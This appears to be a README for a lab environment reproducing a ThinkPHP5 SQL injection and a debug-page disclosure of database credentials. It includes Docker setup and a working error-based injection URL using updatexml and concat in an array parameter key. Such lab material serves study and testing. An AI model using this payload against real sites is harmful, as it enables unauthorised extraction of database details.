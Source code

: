 # ThinkPHP5 SQL Injection Vulnerability && Sensitive Information Disclosure Vulnerability
[中文版本(Chinese version)](README.zh-cn.md)

## Rationale
Details to read the references：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xianzhi.aliyun.com/forum/read/1813.html

## Environment Setup
Enter the following command:
```
docker-compose up -d
```
Visiting `http://your-ip/index.php?ids[]=1&ids[]=2`, you'll see the username is displayed, indicating that the environment is running successfully.

## Exploit

Open the page `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，you will find messages revealed successfully：

![](01.png)

And you can find the account and password of the database through the debug page.
![](02.png)

This is another sensitive information disclosure vulnerability.

